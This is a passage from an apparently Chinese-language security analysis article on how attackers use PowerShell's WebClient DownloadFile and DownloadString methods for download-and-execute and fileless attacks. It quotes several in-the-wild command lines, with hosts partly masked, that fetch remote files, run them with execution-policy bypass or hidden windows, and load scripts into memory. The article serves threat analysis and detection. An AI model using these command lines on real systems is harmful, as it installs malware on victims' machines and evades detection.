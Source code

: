 **2.1 (New-object System.net.webclient).DownlodFile()**

该方法最简单的一种使用场景如下图所示（我们可以使用类似Xampp之类的平台搭建http(s)服务器环境，来测试这种方法的功能）。

[![](https://p1.ssl.qhimg.com/t01a0b609e559205cde.png)](https://p1.ssl.qhimg.com/t01a0b609e559205cde.png)

如上图所示，利用这种方法，攻击者可以将目标文件（`evilfile.txt`）下载到`$Appdata`环境变量所对应的`C:Userskirtar_ozaAppDataRoaming`路径中，然后使用“**Invoke-Item**”命令执行这个文件。

在实际攻击活动中，我们曾见过如下用法：

```
C:WindowsSystem32WindowsPowerShellv1.0powershell.exe" -nop -Exec Bypass -Command (New-Object System.Net.WebClient).DownloadFile('http://**********.com/***/**.dat', $env:APPDATA + '***.exe'); Start-Process $env:APPDATA'***.exe
```

如上述代码所示，攻击者使用`.downloadfile()`方法下载远程文件，利用环境变量，将该文件存放到用户的appdata目录，然后使用“**Start-Process**”来执行下载的二进制文件。

我们还在实际攻击活动中见过如下案例，攻击者使用PowerShell下载并执行远程文件：



```
C:WINDOWSSysWOW64WindowsPowerShellv1.0powershell.exe" iex $env:vlbjkf
C:WINDOWSSysWOW64WindowsPowerShellv1.0powershell.exe" Invoke-Expression $env:imumnj
C:WindowsSystem32cmd.exe" /c PowerShell "'PowerShell ""function Bdabgf([String] $hcre)`{`(New-Object System.Net.WebClient).DownloadFile($hcre,''C:Users***AppDataLocalTemp****.exe'');Start-Process   ''C:Users****AppDataLocalTemp****.exe'';`}`try`{`Bdabgf(''http://*****.com/****.png'')`}`catch`{`Bdabgf(''http://*****.de/***.png'')`}`'"" | Out-File -encoding ASCII -FilePath C:Users****AppDataLocalTemp*****.bat;Start-Process 'C:Users*****AppDataLocalTemp******.bat' -WindowStyle Hidden"
```

**2.2 (New-object System.net.Webclient).DownloadString()**

`DownloadString()`并不会将文件下载到磁盘中，相反，该方法会将远程文件的内容直接载入受害者主机的内存中。这些文件通常为恶意脚本，攻击者可以使用Powershell的`–Command`参数在内存中直接执行这些文件。无文件恶意软件中经常用到这种技术，以便在内存中直接执行恶意脚本，而无需将任何文件保存到磁盘中。攻击者经常使用这种技术来绕过基于特征的检测机制。

这种方法最简单的一种使用场景如下所示：[![](https://p2.ssl.qhimg.com/t01a42eb0d8e6abd673.gif)](https://p2.ssl.qhimg.com/t01a42eb0d8e6abd673.gif)

[![](https://p5.ssl.qhimg.com/t019c6ac53c8a49cc51.png)](https://p5.ssl.qhimg.com/t019c6ac53c8a49cc51.png)

`cmd.js`是一个远程脚本，可以从受害者主机的内存中直接启动`calc.exe`进程，无需将任何文件保存到磁盘上（注意：只需利用记事本打开`calc.exe`并将其保存为`.js`文件即可）。

实际攻击活动中，我们曾见过如下用法：

```
powershell  -nop -Exec Bypass -Command (New-Object System.Net.WebClient).DownloadFile('hxxp://******** [.]com/***/**.mdf', $env:APPDATA + '***.exe'); Start-Process $env:APPDATA'***.exe';(New-Object System.Net.WebClient).DownloadString('hxxp://nv******[.]com/s.php?id=po**')
```

如上所示，攻击者用到了前面提到的两种方法，他们使用downloadstring()从远程主机下载某些php代码。

**<br>**

**三、使用某些PowerShell“标志”来隐藏操作痕迹**
